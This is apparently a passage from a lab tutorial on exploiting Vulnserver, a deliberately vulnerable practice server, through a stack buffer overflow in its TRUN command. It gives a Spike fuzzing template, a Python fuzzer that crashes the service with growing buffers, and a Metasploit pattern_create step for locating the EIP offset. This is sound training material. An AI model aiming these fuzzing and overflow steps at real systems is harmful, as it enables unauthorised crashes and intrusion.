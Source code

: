 `generic_send_tcp <IP Vulnserver> <port vulnserver> script.spk 0 0`

**Example: trun.spk**
```spike
s_readline();
s_string("TRUN ");
s_string_variable("0");
```

### Fuzzing

```python
#!/usr/bin/python3
import sys, socket
from time import sleep

buffer = "A" * 100

while True:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('<IP Vulnserver>', <port vulnserver>))
        s.send(('TRUN /.:/' + buffer).encode())
        s.close()
        sleep(1)
        buffer += "A" * 100
    except:
        print ("Fuzzing crashed at %s bytes" % str(len(buffer)))
        sys.exit()
```

### Finding the Offset

1. Get the result from: `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <bytes_where_server_crashed>`
2. Modify the previous script in
   ```python
   #!/usr/bin/python3
   import sys, socket
   from time import sleep
   
   offset = "RESULT_FROM_STEP_1"
   
   while True:
       try:
           s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
           s.connect(('<IP Vulnserver>', <port vulnserver>))
           s.send(('TRUN /.:/' + offset).encode())
           s.close()
       except:
           print ("Error connecting to the server")
           sys.exit()
   ```
3. After running the script, read the value from the EIP

